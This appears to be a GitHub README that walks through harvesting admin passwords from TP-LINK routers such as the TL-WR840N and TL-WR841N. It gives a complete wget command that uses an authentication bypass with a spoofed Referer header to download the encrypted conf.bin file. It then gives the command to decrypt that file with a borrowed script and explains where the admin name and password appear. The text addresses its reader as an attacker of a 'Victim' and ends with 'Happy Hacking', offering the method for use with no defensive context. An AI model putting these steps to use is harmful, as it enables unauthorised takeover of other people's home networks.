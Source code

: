 # TP-LINK Routers Admin Account Password Harvesting Vulnerability.
This **Vulnerability** basically uses another [Vulnerability](https://www.exploit-db.com/exploits/44781) which is a **limited authentication bypass vulnerability** using which it downloads the configuration file of the Router.

This **configuration file(conf.bin)** is the **most sensitive piece of information** that a **Hacker** would love to have of its **Victim.**
But this configuration file is **Encrypted** by the Vendor (Essentially **TP-LINK**).

*Fortunately,* This configuration can be **Decrypted.** To Exploit this just follow the following guidelines:-

# Procedure

## Getting The File

First of all you need to download the configuration file using the **Wget** utility using the following command:-
> wget -d --header="User-Agent: Mozilla/5.0 (Windows NT 6.0) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.97 Safari/537.11" --header="Referer: http://192.168.0.1/mainFrame.htm" --header="Accept-Encoding: compress, gzip" http://192.168.0.1/cgi/conf.bin

You can customize the headers by yourself also but just remind not to omit the **Referer** Header.

Now, As you got the configuration file, next step is to decrypt it.

## Decrypting the File
As to decrypt the file you will need the file given in this repository.
I got this Decrypting Script from another Github [Repository](https://github.com/sta-c0000/tpconf_bin_xml) 
**Thanks "sta-c0000"**

Use the following command to decrypt the conf.bin file:-
>python3 decrypt.py conf.bin conf.xml

You can change the last argument to change the filename as desired.
In this .xml file you will find all the configuration of the router.
To Quickly find the admin username and password,search admin within the file.
Then you will find the AdminName and AdminPwd tags.
And their values will be in the *val* variable.
Like This:-
>
      <AdminName val=Alexis />
      <AdminPwd val=$up3rS3cuRePA$$W0rd! />

**Note:**
You will not be able to open the .xml file in most .xml editors due to some header problems.
Simply Open the file using Nano,Vim,Notepad++,etc.
**Please Note that if you not find these tags in the .xml file then the Victim is using Default Credentials.**

**Which Are:-**
*user: admin*
*password: admin*

# Affected Devices
At this time it is not known that how many devices are Vulnerable To this technique.
But the devices which i tested on are:

- TL-WR840N
- TL-WR841N

**Some Other Routers of TP-LINK are also vulnerable of a similar kind of attack**

- WL-WA850RE

[Link To the Repository](https://gist.github.com/eacmen/)

Happy Hacking!!! 🤑
